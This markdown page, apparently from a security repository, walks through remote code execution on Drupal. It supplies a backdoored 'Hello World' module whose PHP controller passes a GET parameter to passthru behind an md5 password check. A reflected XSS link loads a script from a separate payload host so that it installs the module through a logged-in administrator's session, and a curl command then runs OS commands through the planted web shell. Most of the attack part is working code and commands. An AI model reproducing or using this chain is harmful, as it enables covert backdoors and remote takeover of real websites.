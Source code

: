 # [RCE] Install Module

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [create backdoored CMS module] backdoor source code

    * **NOTE**: update/customize PHP backdoor in `HelloWorldController.php`

    (`hello_world.info.yml`)

    ```
    name: hello_world
    type: module
    description: 'Hello World custom module'
    package: custom
    version: 1.0
    core_version_requirement: ^10
    ```

    (`hello_world.routing.yml`)

    ```
    hello_world.hellomsg:
      path: '/hello-world'
      defaults:
        _controller: 'Drupal\hello_world\Controller\HelloWorldController::message'
        _title: 'Hello World!!'
      requirements:
        _permission: 'access content'
    ```

    (`src/Controller/HelloWorldController.php`)

    ```
    <?php

    namespace Drupal\hello_world\Controller;

    class HelloWorldController {
      public function message() {
        if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
        return [
          '#markup' => 'Hello World message from custom module'
        ];
      }
    }
    ```

2. [create backdoored CMS module] create Drupal module

    ```
    tar cvf hello_world.tar.gz *
    ```

3. [setup exploit] change payload variable values (`installModuleDrupal.js`)

    `exploitURL` - URL of Drupal module (containing backdoor) to be installed on target site

    `drupalRoot` - path to Drupal installation on the target system (e.g. `"/path"`)

4. [setup exploit] setup web server (to serve the payload/module

5. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.17/user/login

6. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.17/test/rxss.php?q=<script src=http://192.168.5.13/installModuleDrupal.js></script>
    ```

    * **NOTES**:
      * `192.168.5.17` - target Drupal site
      * `192.168.5.13` - web server hosting payload

7. [post exploit] execute OS command

    ```
    curl -s "http://192.168.5.17/hello-world?pass=test&cmd=id" | head -n 1
    ```

8. [uninstall module] uninstall module via GUI

    *Drupal ➔ Extend ➔ [tab] Uninstall ➔ (filter by name) hello ➔ (mark checkbox) Hello World ➔ Uninstall ➔ Uninstall*

9. [uninstall module] remove module from filesystem

    ```
    sudo su
    cd /var/www/html/drupal/modules
    rm -rf hello_world
    ```

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 7 from the "Exploitation Steps" chapter

![Image](screenshots/Drupal_-_install_module_-_1-1.png)
